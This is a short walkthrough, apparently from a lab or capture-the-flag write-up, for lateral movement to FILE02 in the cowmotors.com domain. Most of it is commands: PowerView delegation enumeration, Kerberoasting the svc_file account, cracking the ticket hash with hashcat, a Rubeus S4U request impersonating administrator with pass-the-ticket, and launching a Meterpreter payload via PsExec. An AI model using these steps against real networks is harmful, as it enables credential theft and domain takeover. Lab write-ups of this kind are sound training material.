 # Lateral movement to FILE02

Once you have access on DB02, the user svc_file has contrained delegation over CIFS/file02.cowmotors.com.

Import PowerView.ps1.  
`. .\PowerView.ps1`

List the delegations:  
`Get-DomainUser -TrustedToAuth -Domain cowmotors.com`

Ask the TGT of svc_file (the user is Kerberoastable, so asks for SPN users):  
`Get-DomainUser -SPN -Domain cowmotors.com | Get-DomainSPNTicket`

Put the hash of svc_file (discard the other hash, you won't need it) and put it on one line in a file, then crack it:  
`hashcat -a 0 -m 13100 svcfile_hash.txt /path/to/rockyou.txt`

With the password, generate its RC4/NTLM hash:  
`.\Rubeus hash /password:<password>`

And asks for S4U and pass the ticket into memory /!\ beware the SPN must respect this format, not with full domain /!\:  
`.\Rubeus s4u /impersonateuser:administrator /dc:dc01 /domain:cowmotors.com /user:svc_file /rc4:<PREVIOUS HASH> /msdsspn:cifs/FILE02 /ptt`

Check you have administrator access on FILE02:  
`dir \\FILE02\C$`

Then, either copy the Base64 ticket and import it on Linux and impacket-smbexec, either copy your Meterpreter EXE payload and run it with PsExec.